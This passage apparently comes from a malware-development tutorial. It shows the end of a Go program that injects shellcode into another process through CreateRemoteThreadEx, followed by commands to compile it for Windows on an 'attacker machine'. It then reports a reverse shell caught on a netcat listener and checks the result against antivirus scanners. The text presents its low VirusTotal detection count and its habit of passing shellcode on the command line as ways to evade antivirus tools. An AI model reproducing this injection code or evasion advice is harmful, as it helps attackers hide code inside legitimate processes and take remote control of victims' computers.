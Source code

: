 ```go
  )

  fmt.Println("Calling CreateRemoteThreadEx...")
  CreateRemoteThreadEx.Call(
    uintptr(procHandle),
    0,
    0,
    addr,
    0,
    0,
    0,
  )

  fmt.Println("Calling CloseHandle...")
  _, _, err = CloseHandle.Call(procHandle)
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("Shellcode should have been executed!")
}
```

This is the final result of the program. Now compile the program in your attacker machine:

Command for linux
```bash 
GOARCH=amd64 GOOS=windows go build main.go
```

Command for windows

```bash
go build main.go
```

Now let’s see how it works!

![Demo](/images/posts/maldev/1/demo-createremotethread-1.png)

And if I check my netcat listener…

![Demo](/images/posts/maldev/1/demo-createremotethread-2.png)

As you can see I’ve catched the reverse shell and if you open the **Process Explorer** you will see that there is the **notepad.exe** process but no new process was created

Let’s upload the generated .exe to **VirusTotal** and **antiscan.me** to see the results (I use **VirusTotal** as it’s just for testing purposes, not for real malware because it gets burned out)

![VirusTotalResult](/images/posts/maldev/1/virustotal-createremotethread.png)

As you can see 7/69 detections isn’t bad at all, but it occurs because the program receives the arguments via CLI so when VirusTotal analyze the file it just gives an error and exits, and the shellcode isn’t hardcoded on the source code so it really helps to bypass AVs
